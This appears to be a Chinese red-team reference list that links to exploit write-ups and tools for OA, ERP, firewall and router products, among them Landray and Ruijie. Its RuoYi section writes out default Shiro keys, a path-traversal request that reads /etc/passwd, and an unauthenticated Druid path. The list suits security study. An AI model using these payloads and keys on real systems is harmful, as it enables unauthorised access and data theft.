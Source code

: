 蓝某OA前台SSRF进一步利用到RCE ([https://mp.weixin.qq.com/s/fNovp4mbKIMkVdF2ywcQcQ](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098258&idx=1&sn=9c321209cf91d1159316a251f4416aed&scene=21#wechat_redirect)  
)  
  
蓝凌 OA treexml.tmpl script 远程代码执行漏洞 (https://github.com/tangxiaofeng7/Landray-OA-Treexml-Rce)  
  
蓝凌EIS saveIm文件上传 (https://github.com/MzzdToT/HAC_Bored_Writing/blob/main/Fileupload/%E8%93%9D%E5%87%8CEIS/EIS_upload.py)  
### 联软准入系统  
  
联软准入系统任意文件上传 (https://www.hedysx.com/2627.html)  
### 绿盟 NF下一代防火墙  
  
绿盟 NF下一代防火墙 任意文件上传漏洞 (https://peiqi.wgpsec.org/wiki/webapp/%E7%BB%BF%E7%9B%9F/%E7%BB%BF%E7%9B%9F%20NF%E4%B8%8B%E4%B8%80%E4%BB%A3%E9%98%B2%E7%81%AB%E5%A2%99%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.html)  
### 企望制造 ERP  
  
企望制造 ERP comboxstore.action 远程命令执行漏洞 (https://peiqi.wgpsec.org/wiki/webapp/%E4%BC%81%E6%9C%9B/%E4%BC%81%E6%9C%9B%E5%88%B6%E9%80%A0%20ERP%20comboxstore.action%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html)  
### 锐捷  
  
锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞 (https://peiqi.wgpsec.org/wiki/iot/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7%20NBR%20%E8%B7%AF%E7%94%B1%E5%99%A8%20fileupload.php%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.html)  
  
锐捷 BCR商业无线云网关 后台命令执行漏洞 (https://peiqi.wgpsec.org/wiki/iot/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7%20BCR%E5%95%86%E4%B8%9A%E6%97%A0%E7%BA%BF%E4%BA%91%E7%BD%91%E5%85%B3%20%E5%90%8E%E5%8F%B0%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html)  
### 若依  
  
默认Key  
```
fCq+/xW488hMTCD+cmJ3aQ==
zSyK5Kp6PZAAjlT+eeNMlg==
```  
  
后台任意文件读取  
- • RuoYi <= v4.5.0  
  
```
/common/download/resource?resource=/profile/../../../../etc/passwd
```  
  
Druid 未授权访问  
```
/prod-api/druid/index.html
```  
  
若依后台定时任务一键利用 (https://github.com/passer-W/Ruoyi-All)  
  
Xcheck Java引擎漏洞挖掘&防护识别 ([https://mp.weixin.qq.com/s/FPMUVoSqc0Lsf5BQx07ADw](https://mp.weixin.qq.com/s?__biz=Mzg2ODQ3ODE1NA==&mid=2247485770&idx=1&sn=f5043cbd6236b88f339170092e2c1713&scene=21#wechat_redirect)  
)  
  